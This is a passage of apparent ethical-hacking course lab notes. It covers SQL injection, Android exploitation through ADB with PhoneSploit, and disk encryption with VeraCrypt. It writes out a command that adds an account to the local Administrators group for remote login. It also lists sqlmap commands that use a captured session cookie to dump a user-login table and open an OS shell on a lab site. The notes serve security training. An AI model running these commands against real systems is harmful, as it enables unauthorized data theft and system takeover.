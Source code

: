     | net localgroup Administrators user001 /Add
    Use created account user001 to log in remotely

### Module 15: SQL Injection
    Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
    Login a website
    Inspect element
    Dev tools-&gt;Console: document.cookie
    sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" –dbs
        -u: Specify the target URL
        --cookie: Specify the HTTP cookie header value
        --dbs: Enumerate DBMS databases
    Get a list of databases
    Select a database to extract its tables
    sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –tables
        -D: Specify the DBMS database to enumerate
        --tables: Enumerate DBMS database tables
    Get a list of tables
    Select a column
    sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –T User_Login --dump
    Get table data of this column
    sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --os-shell
    Get the OS Shell
    TASKLIST

### Module 17: Hacking Mobile Platforms
    Lab 1-Task 4: Exploit the Android Platform through ADB using PhoneSploit
    cd Phonesploit
    python3 -m pip install colorama
    python3 phonesploit.py3
    10.10.10.144
    pwd
    cd sdcard
    cd Download

### Module 20: Cryptography
    Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator
    Nothing special
    Lab4-Task1: Perform Disk Encryption using VeraCrypt
    Click VeraCrypt
    Create Volumn
    Create an encrypted file container
    Specify a path and file name
    Set password
    Select NAT
    Move the mouse randomly for some seconds, and click Format
    Exit
    Select a drive, select file, open, mount
    Input password
    Dismount
    Exit
